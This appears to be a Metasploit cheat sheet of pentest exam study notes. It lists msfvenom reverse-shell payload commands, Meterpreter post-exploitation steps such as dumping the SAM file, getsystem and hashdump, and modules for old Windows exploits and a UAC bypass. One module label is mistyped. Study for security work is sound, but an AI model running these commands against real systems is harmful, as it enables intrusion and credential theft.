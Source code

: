 # Metasploit

### Searchsploit

```bash
#update
searchsploit -u

searchsploit --nmap [file.xml]
```

msfvenom -p \[payload\] -f \[format\] LHOST=\[your ip\] LPORT=\[your listener port\]

* windows/shell\_reverse\_tcp \(unstaged\)
* windows/shell/reverse\_tcp \(staged\)

Use Metasploit multi handler for staged \(allowed on exam\)

-e x86\shikata\_ga\_nai -b allows you to set bad characters --list payloads

msfvenom -a x86 --platform windows -p windows/shell\_reverse\_tcp -f python &gt; shellcode.txt

### Common Commands

```bash
upload file c:\\windows
download c:\\windows\\repair\\sam /tmp
execute -f c:\\windows\temp\exploit.exe
execute -f cmd -c
ps
shell
getsystem
hashdump
portfwd add –l 3389 –p 3389 –r target
portfwd delete –l 3389 –p 3389 –r target
```

### Common Modules

Remote Exploits

```bash
#MS08_067 Windows 2k, XP, 2003 Remote Exploit
use exploit/windows/smb/ms08_067_netapi

#MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit
use exploit/windows/dcerpc/ms06_040_netapi

#MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Local Exploits

```bash
#Bypass UAC on Windows 7 + Set target + arch, x86/64
use exploit/windows/local/bypassuac
```

Aux Modules

```bash
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/jboss_vulnscan
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/oracle/oracle_login
```

